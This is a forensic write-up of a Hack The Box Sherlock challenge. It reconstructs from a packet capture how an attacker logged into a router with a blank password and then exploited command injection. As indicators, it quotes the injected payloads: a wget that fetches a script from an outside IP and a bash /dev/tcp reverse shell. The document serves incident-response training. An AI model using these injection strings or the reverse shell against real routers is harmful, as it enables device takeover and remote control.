

### Introduction

This write-up documents my investigation of the Trent Sherlock challenge on Hack The Box. Unlike my other host-based DFIR scenarios, this challenge only provided me with a packet capture (.pcap).

Rather than presenting a step-by-step solution, this report focuses on:
- My investigative methodology
- How I pivoted through network artifacts
- How I validated assumptions using packet-level evidence
- How I reconstructed attacker behavior from raw traffic
I try to approach these challenges as real-world incident response scenarios, emphasizing traffic analysis, protocol inspection, and behavioral correlation instead of simply picking out the answers to solve the Sherlock.

### Objective

The primary objectives of this investigation were to determine:

- How the attacker gained access to the system
- What actions were performed post-compromise
- Whether command execution or remote control occurred
- What indicators suggest persistence and or command-and-control (C2)

### Tools Used
- Wireshark (surprise!)
	- Built-in Wireshark features:
	- Protocol Hierarchy
	- TCP Streams
	- Conversations
	- Packet inspection and filtering

 

# Trent Sherlock - DFIR Write-up

**Hack The Box Initial Information:**

The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation.

You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

 

### Initial Triage & Traffic Scoping

I began by reviewing the Protocol Hierarchy to understand the overall traffic composition. The capture was dominated by:
- IPv4
- TCP
- HTTP traffic
This immediately suggested that application-layer analysis (HTTP) would be critical here.

**Identifying Key Hosts**

Using Conversations, I identified the primary communicating systems:

- `192.168.10.1` → Router (TEW-827DRU, Firmware 2.10)
- `192.168.10.2` → Internal endpoint interacting with the router

To reduce noise, I scoped traffic with:
- `ip.src == 192.168.10.2 && ip.dst == 192.168.10.1`
This isolates inbound traffic to the router, which became the main point of the investigation.

 

### Initial Access - Router Authentication Abuse

**Login Interface Interaction**

Inspection of HTTP traffic revealed that the attacker first accessed the router’s login interface:
- Timestamp: `15:52:40`
- Method: HTTP GET requests to load login page

**Authentication Attempts**

Shortly after, multiple POST requests were observed:
- Endpoint: `/apply_sec.cgi`
- Timeframe: `15:52:40 – 15:53:27`

Analysis of POST bodies showed:

- Repeated authentication attempts targeting the admin account
- Multiple password guesses
- Successful authentication using a blank password at `15:53:27`

**Assessment**

This behavior indicates:
- Weak credential security (blank password allowed)
- Direct web-based administrative access
- No brute-force protection or account lockout
This aligns with:
- MITRE ATT&CK T1078 - Valid Accounts

 

### Post-Authentication Activity – Command Injection

After authentication, the attacker's behavior escalated significantly.

**Targeted Endpoint**
- `/apply.cgi` (router configuration handler)

**Injection Vector**
The attacker abused the parameter:
- `usbapps.config.smb_admin_name`

This field was used to inject shell commands into the router’s configuration.

**Observed Command Injection**

Between `15:56:16 – 16:08:08`, multiple malicious payloads were observed:
- `whoami`
- `wget http://35.159.25.253:8000/a1l4m.sh`
- `bash a1l4m.sh`

Example injection format:
- `admin'whoami'`
- `admin'wget http://35.159.25.253:8000/a1l4m.sh'`
- `admin'bash a1l4m.sh'`

**Assessment**

This confirms:
- Command Injection vulnerability exploitation
- Abuse of legitimate configuration fields
- Transition from authentication --> execution

Mapped to:
- MITRE ATT&CK T1059 - Command and Scripting Interpreter
- MITRE ATT&CK T1190 - Exploit Public-Facing Application

 

### Timeline of Events

| Time                | Activity                           |
| ------------------- | ---------------------------------- |
| `15:52:40`            | Router login page requested        |
| `15:52:40 - 15:53:27` | Authentication attempts            |
| `15:53:27`            | Successful login (blank password)  |
| `15:56:16 - 16:08:08` | Command injection via `/apply.cgi` |
| `Shortly after`      | Reverse shell callback initiated   |

 

### Indicators of Compromise (IOCs)

**Payloads & Commands:**
- `bash a1l4m.sh`
	- `a1l4m.sh` Contents: `bash -i > /dev/tcp/35.159.25.253/41143 0<&1 2>&1`
- `whoami`
- `wget`

**IPs:**
- `35.159.25.253:8000`
- `35.159.25.253:41143`

**Behavioral Indicators:**
- Repeated POST requests to admin endpoints
- Authentication using blank password
- Command injection in configuration fields
- Reverse shell initiation

**Root Cause Analysis**

The compromise was enabled by a combination of:
1. **Weak Authentication Controls**
    - Admin account allowed authorization with a blank password
2. **Vulnerable Web Interface**
   - The router (TEW-827DRU, firmware v2.10) is vulnerable to command injection via configuration parameters
   - Specifically associated with CVE-2024-28353, allowing unsanitized input in the web interface to be executed as system commands
3. **Lack of Input Sanitization**
    - Direct execution of user input

 

### Final Assessment

Based on the available evidence, the investigation concludes:

- The attacker gained access via the router’s web interface using a blank password
- Post-authentication, they exploited a command injection vulnerability
- A malicious script was downloaded and executed
- A reverse shell was established, granting remote control of the device

This represents a **full compromise of the router**, with attacker persistence achieved through interactive shell access.

 

### Unanswered Questions

While the PCAP provides strong visibility into the attack chain, several uncertainties remain:
- Was the router exposed beyond the internal network?
- Did the attacker perform lateral movement after compromise?
- Was the external server hosting additional tooling?
- Are all HTTP POST bodies fully captured in the PCAP?

 

### Next Steps (If This Were a Live Incident)

- Immediately isolate and reset the compromised router
- Disable or rotate all administrative credentials & disable blank passwords
- Patch firmware to remediate known vulnerabilities
- Block outbound traffic to known malicious IPs
- Investigate internal host `192.168.10.2` for compromise
- Review logs for lateral movement or additional devices impacted
